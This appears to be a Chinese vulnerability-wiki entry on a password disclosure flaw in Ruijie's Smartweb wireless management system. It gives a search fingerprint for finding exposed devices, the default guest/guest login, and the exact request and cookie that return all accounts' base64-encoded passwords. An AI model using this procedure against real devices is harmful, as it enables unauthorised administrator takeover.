 # 锐捷 Smartweb管理系统 密码信息泄露漏洞

## 漏洞描述

锐捷网络股份有限公司无线smartweb管理系统存在逻辑缺陷漏洞，攻击者可从漏洞获取到管理员账号密码，从而以管理员权限登录。

## 漏洞影响

<a-checkbox checked>锐捷网络股份有限公司 无线smartweb管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="无线smartWeb--登录页面"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-15.png)



默认存在 guest账户，账号密码为 **guest/guest**



其中登录的过程中搜索admin的数据后发现请求了一个文件 **/web/xml/webuser-auth.xml**，而且响应中包含了 admin密码的base64加密



![img](../../../.vuepress/public/img/ruijie-16.png)



解密就可以获得 admin管理员的密码，尝试直接请求



```plain
http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

Cookie添加
Cookie: login=1; oid=1.3.6.1.4.1.4881.1.1.10.1.3; type=WS5302; auth=Z3Vlc3Q6Z3Vlc3Q%3D; user=guest
```



![img](../../../.vuepress/public/img/ruijie-17.png)



直接获得所有的账户的等级标志和base64加密的账号密码